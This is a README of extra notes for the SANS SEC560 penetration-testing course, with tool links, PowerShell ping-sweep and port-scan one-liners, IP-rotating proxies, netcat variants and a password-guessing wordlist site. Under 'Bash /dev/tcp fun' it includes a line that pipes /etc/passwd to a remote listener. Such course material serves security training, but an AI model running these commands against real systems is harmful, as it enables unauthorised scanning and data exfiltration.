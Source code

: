 # 560-Extras
Notes and other extras related to SANS SEC560

## Day 1


## Day 2


### Other port and host scanning options

RustScan: https://github.com/RustScan/RustScan

How to write a port scanner in Go: https://github.com/jboursiquot/portscan

PowerShell ping sweep example: 1..60 | % {echo $_; ping -n 1 -w 100 10.10.10.$_ | select-string ttl}

PowerShell port scan example: 70..90 | % {echo $_; echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.50",$_)) "Port $_ is open" } 2>$null


### Proxying traffic and rotating source IP
https://github.com/ustayready/fireprox (more for web traffic, but always worth mentioning)

https://github.com/blacklanternsecurity/TREVORproxy

https://github.com/Shellntel/scripts/blob/master/proxyCannon.py


### PktMon - Windows native packet capture

https://learn.microsoft.com/en-us/windows-server/networking/technologies/pktmon/pktmon


### Bash /dev/tcp fun

Connect to a port: echo "" > /dev/tcp/142.250.138.139/443

Send a file: cat /path/to/file > /dev/tcp/ip/port

- ex: cat /etc/passwd > /dev/tcp/10.10.10.10/4444

### All the cats

Powercat: https://github.com/besimorhino/powercat

Nmap's ncat: https://nmap.org/ncat/

pwncat, "python netcat on steroids": https://github.com/cytopia/pwncat

socat: https://linux.die.net/man/1/socat

telnet ip port


### Auto-updated wordlist for pw guessing based on current, relevant seasons, months, and year:

http://weakpasswords.net/


## Day 3

## Day 4

## Day5
